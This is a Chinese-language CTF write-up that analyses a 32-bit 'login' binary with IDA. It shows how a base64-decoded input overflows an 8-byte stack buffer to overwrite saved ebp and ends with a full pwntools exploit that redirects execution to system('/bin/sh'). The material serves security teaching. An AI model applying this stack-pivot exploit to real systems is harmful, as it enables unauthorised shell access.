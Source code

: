 `login` 为 32 位 ELF 程序，简单使用 IDA 分析程序，可以得到主要程序逻辑：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // ST04_1@1
  int v5; // [sp+18h] [bp-28h]@1
  __int16 v6; // [sp+1Eh] [bp-22h]@1
  unsigned int v7; // [sp+3Ch] [bp-4h]@1

  memset(&v6, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ", v3);
  _isoc99_scanf("%30s", (unsigned int)&v6);
  memset(&input, 0, 0xCu);
  v5 = 0;
  v7 = Base64Decode(&v6, &v5);
  if ( v7 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v5, v7);
    if ( auth(v7) == 1 )
      correct();
  }
  return 0;
}
```

这里经过 `Base64Decode()` 函数解码后字符串长度不能超过 12bytes，而在 `auth()` 函数中通过 `memcpy()` 函数将解码后的字符串复制到自己的函数堆栈中：

    .text:080492A2                 mov     eax, [ebp+arg_0]
    .text:080492A5                 mov     [esp+8], eax    ; i_buf_length (max=0xc)
    .text:080492A9                 mov     dword ptr [esp+4], offset input ; base64 decode string
    .text:080492B1                 lea     eax, [ebp+var_14]
    .text:080492B4                 add     eax, 0Ch        ; [ebp-0x8] buff[8]
    .text:080492B7                 mov     [esp], eax
    .text:080492BA                 call    memcpy          ; memcpy(&(ebp-0x8), &b64d_str, 0xc)
    
这里可以看到 `auth()` 函数中只使用了 8bytes 来存储 Base64 解码后的字符串，而允许的解码后的字符串长度为 12bytes，溢出的 4bytes 刚好覆盖了 `ebp` 的值，在 `auth()` 函数返回执行 `leave; ret` 从而可以控制程序流程，因为输入字符串和解码后的字符串都存在了 `.bss 0x0811EB40` 地址上，所以直接覆盖 `ebp` 值为 `input` 变量的地址，并在 `0x0811EB40 + 4` 处写入需要 RET 的地址即可。

程序中已经准备好了 `system("/bin/sh")`，所以直接将返回地址控制到该处即可，最终 exp 如下：

```python
#!/usr/bin/env python
# coding: utf-8

from pwn import *

p = process('./login')

ebp_over = 0x0811EB40  # input .bss
pp_system = 0x08049284 # system("/bin/sh")
payload = b64e('A' * 4 + p32(pp_system) + p32(ebp_over))

p.sendline(payload)
p.interactive()
```